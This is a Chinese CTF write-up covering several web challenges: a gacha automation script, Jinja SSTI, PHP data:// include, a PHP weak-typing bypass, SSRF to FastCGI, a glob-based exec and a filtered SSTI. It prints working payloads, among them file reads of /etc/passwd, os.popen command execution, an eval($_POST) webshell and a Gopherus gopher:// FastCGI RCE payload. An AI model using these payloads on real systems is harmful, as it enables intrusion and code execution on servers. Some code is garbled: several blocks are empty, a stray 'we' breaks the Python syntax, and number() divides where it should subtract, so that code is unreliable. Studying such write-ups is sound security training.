


- # Gacha
	- ## 解法一
		- 嗯抽几百发
	- ## 解法二
		- 观察发现抽卡逻辑如下：
			- 抽卡时首先会访问`xxx_animation.php`播放动画
			- 然后访问`roll.php`进行抽卡
			- 最后访问`xxx_result.php`显示结果
		- 因此，我们可以编写脚本，只执行后两步，即可快速抽出flag
			- ```python
			  import requests
			  import time
			  
			  def gacha():
			      url = "http://你猜:是啥/"
			      session = requests.session()
			      for _ in range(1601):
			          session.get(url + "/roll.php")
			          time.sleep(0.1)
			          r = session.get(url + "/mrfz_result.php")
			          time.sleep(0.1)
			          if "C404" in r.text:
			              print(r.text)
			              return True
			      return False
			  
			  gacha()
			  ```
	-
- # BabySSTI
	- ## 知识点
		- HTML模板
			- HTML是网页的源代码，而HTML模板是用来生成网页的模板。在本题中，模板引擎Jinja会将HTML模板转换成HTML
		- Jinja
			- Jinja是一个模板引擎，它会将HTML模板中像这类被双花括号框起来部分给替换掉
				- `{{2*2}}`
		- SSTI
			- 有时，用户的输入会被当成HTML模板的一部分。这时用户就可以在一定程度上控制HTML模板。
			- 然后又因为我们可以通过双花括号执行任意命令
			- 用户可以通过控制HTML模板在目标上执行任意一行Python代码，从而可以做到：
				- 读取任意文件：`{{lipsum.__globals__.__builtins__.open('/etc/passwd').read()}}`
				- 执行任意命令：`{{lipsum.__globals__.__builtins__.eval("__import__('os').popen('ls').read()")}}`
				- 。。。。。。
	- ## 题解
	- 使用上面的Payload进行命令执行：
		- `{{lipsum.__globals__.__builtins__.eval("__import__('os').popen('ls').read()")}}`看到flag.txt
		- `{{lipsum.__globals__.__builtins__.eval("__import__('os').popen('cat flag.txt').read()")}}`得到flag
- # Include
	- ## 知识点
		- 伪协议
			- PHP的很多函数都支持伪协议。伪协议和`http://`之类的协议类似，但是它不是用来和其他程序进行通信的。
			- 在PHP里面，我们可以像读取文件一样读取一个网页的内容：
				- `file_get_contents('http://www.baidu.com');`
			- 也可以像读取文件一样，读取伪协议中的内容。
				- `file_get_contents('data://text/plain,123')`
				- 这样读取出来的就是伪协议所代表的内容
			- 常用伪协议有：
				- `data://`
				- `php://`
				- `gopher://`
				- `file://`
				- `dict://`
				- `glob://`
	- ## 题解
		- include支持伪协议，我们可以使用`data://`伪协议实现include任意代码
		- payload: `?url=data://text/plain,%3C?php%20system(%27echo%20$flag%27);?%3E`
- # PureMagic
	- ## 知识点
		- 弱类型
			- 在PHP中，任何不以数字开头的字符串都和0相等
				- 比如：`"admin" == 0`
			- 在PHP中，给大多数处理字符串的函数传入一个数组，会导致失败而返回false
		- JSON
			- 一种传输数据的格式，它用JS中对象的格式表达数据，和Python中的字典类似
	- ## 题解
		- 题目可以分为三个部分：登陆，验证md5，写入webshell
		- ### 登陆
			- 题目使用JSON传输用户名和密码，我们可以将用户名和密码都设置为数字0从而绕过
			- `{"username": 0, "password": 0}`
		- ### 验证MD5
			- 题目要求我们传入两个不相等，但MD5值相等的两个变量
			- 我们可以使用两个不相等的数组进行绕过
			- `md5_a[]=1&md5_b[]=2`
		- ### 写入webshell
			- 题目使用`preg_match`验证webshell的内容，我们可以使用这个特性绕过：
				- > 在PHP中，给大多数处理字符串的函数传入一个数组，会导致失败而返回false
			- `content[]=<?php eval($_POST['data']);?>`
		- 最终exp
		- ```python
		  def puremagic():
		      payload = "message=%7B%22username%22:%200,%20%22password%22:%200%7D&md5_a[]=1&md5_b[]=2&content[]=<?php eval($_POST['data']);?>"
		      url = "http://你猜:是啥/"
		      r = requests.post(url, data=payload)
		      re_obj = re.search(r"uploads/([0-9])+?.php", r.text)
		      if re_obj:
		          path = re_obj.group(0)
		      else:
		          return "Write Failed!"
		      r = requests.post(url + path, data={
		          "data": "echo $_ENV['flag'];"
		      })
		      if "C404" not in r.text:
		          return "Read Flag Failed!, path: " + path
		      return True
		  ```
- # SSRF2RCE
	- 用Gopherus生成Payload，交上去就行
	- ## 题解
		- 题目注释内提示了`index.php`的位置和`127.0.0.1:9000`这个地址
		- 我们可以使用Gopherus生成payload
			- 
			- ```
			  gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%00%FF%07%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH54%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%12SCRIPT_FILENAME/app/src/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%006%04%00%3C%3Fphp%20system%28%27ls%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
			  ```
		- urlencode一下交上去就行
		- 
- # Naidesu
	- [参考](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)
	- 上传文件，文件应该缓存在`/tmp/php??????`中（其中问号为大小写字母）
	- 可以用`.`来用shell执行文件，glob来匹配文件
		- `.`是`source`的简写
		- 在glob中，方括号表示匹配一个ascii范围内的字符
		- 也就是说`[_-{]`代表小写字母，`[@-[]`代表大写字母
		- `. /[_-{][_-{][_-{]/[_-{][_-{][_-{]?????[@-[]`的意思就是
		- `source /tmp/php??????`
	- 从而实现执行上传的文件
	- ```python
	  import time
	  import requests
	  
	  url = "http://你猜:是啥/"
	  
	  while True:
	      r = requests.post(
	          url, 
	          params = {
	              "c": ". /[_-{][_-{][_-{]/[_-{][_-{][_-{]?????[@-[]"
	          },
	          files = {
	              "file":("a.txt", "env")
	          }
	      )
	      if r.text:
	          break
	      time.sleep(0.5)
	  
	  print(r.text)
	  ```
- # GIGAcHARD SSTI
	- ## 解法一
		- 使用[模块](https://github.com/Marven11/FenJing)自动解题
		- ```python
		  import ssti
		  import requests
		  import functools
		  
		  url = "http://你猜:是啥"
		  
		  @functools.lru_cache
		  def waf(s):
		      r = requests.post(url, data = {
		          "talk": s
		      })
		      return "ARE NOT" not in r.text
		  
		  payload = ssti.shell_cmd(waf, "cat flag.txt")
		  
		  print(payload)
		  ```
		- 把Payload交上去就行
	- ## 解法二
		- 手动分析：
		- ### 双花括号
			- `{{}}`被禁
			- 使用``
		- ### 任意数字
			- 加号和所有数字都被禁
			- 这样可以构建出一部分数字：
				- ```python
				  
				  
				  
				  
				  
				  
				  ```
				- 这些数字代表：
					- ```python
					  d = {
					      "ltr": 178,
					      "lel": 131,
					      "bs": 65,
					      "zb": 26,
					      "b": 6,
					      "l": 1,
					  }
					  ```
			- 然后用大数减去小数的方式构建出任意不是太大的数字
				- `ltr-l-l-l`
		- ### `%c`
			- 使用`cycler|pprint|list|pprint|urlencode|batch(10)|first|join|batch(8)|list|last|reverse|join|lower`
			- 其中的数字使用上面的绕过
		- ### 任意字符串
			- 使用`'%c'*3%(97,97,97)`
		- ### 属性
			- 使用`|attr()`
		- ### 物品
			- 使用`|attr('__getitem__')()`
		- ### ^^最终Payload^^
			- ```python
			  before = """
			  
			  
			  
			  
			  
			  
			  """
			  
			  d = {
			      "ltr": 178,
			      "lel": 131,
			      "bs": 65,
			      "zb": 26,
			      "b": 6,
			      "l": 1,
			  }
			  
			  # 生成任意数字
			  def number(n):
			      assert 178 >= n
			      now = 178/n
			      ans = ["ltr", ]
			      for k, v in d.items():
			          while now >= v:
			              now -= v
			              ans.append(k)
			      return "-".join(ans)
			  
			  # 生成%c
			  def percent_sign_lower_c():
			      return "(cycler|pprint|list|pprint|urlencode|batch(%s)|first|join|batch(%s)|list|last|reverse|join|lower)" % (
			          number(10),
			          number(8),
			      )we
			  
			  # 生成任意字符串
			  def string(s):
			      return "{}*({})%({})".format(
			          percent_sign_lower_c(),
			          number(len(s)),
			          ",".join([number(ord(c)) for c in s])
			      )
			  
			  # 获取任意参数
			  def attr(name):
			      return "|attr(%s)" % string(name)
			  
			  # 获取任意物品
			  def item(name):
			      return "|attr(%s)(%s)" % (
			          string("__getitem__"),
			          string(name)
			      )
			  
			  target = ("joiner" +
			      attr("__init__") + 
			      attr("__globals__") + 
			      item("__builtins__") +
			      item("eval") +
			      "(%s)" % (
			          string("__import__('os').popen('cat flag.txt').read()")
			      )
			  )
			  print(before + "".replace("PAYLOAD", target))
			  ```
			- 运行即可得到Payload
				-